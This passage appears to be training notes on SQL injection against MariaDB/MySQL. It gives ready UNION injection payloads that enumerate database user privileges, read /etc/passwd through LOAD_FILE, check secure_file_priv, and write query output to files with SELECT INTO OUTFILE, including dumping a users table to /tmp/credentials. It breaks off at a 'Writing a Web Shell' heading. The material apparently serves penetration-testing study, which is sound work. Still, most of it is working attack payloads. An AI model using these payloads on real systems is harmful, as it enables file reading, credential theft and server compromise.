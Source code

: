 ## User Privileges
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

From here, we can add `WHERE grantee="'root'@'localhost'"` to only show our current user `root` privileges. Our payload would be:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
## LOAD_FILE

Now that we know we have enough privileges to read local system files, let us do that using the `LOAD_FILE()` function. The [LOAD_FILE()](https://mariadb.com/kb/en/load_file/) function can be used in MariaDB / MySQL to read data from files. The function takes in just one argument, which is the file name. The following query is an example of how to read the `/etc/passwd` file:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

## Write File Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

#### secure_file_priv

The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system.
So, let's see how we can find out the value of `secure_file_priv`. Within `MySQL`, we can use the following query to obtain the value of this variable:

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
Using Union injection:
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```
## SELECT INTO OUTFILE

Now that we have confirmed that our user should write files to the back-end server, let's try to do that using the `SELECT .. INTO OUTFILE` statement. The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. This is usually used for exporting data from tables.
```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```
## Writing a Web Shell

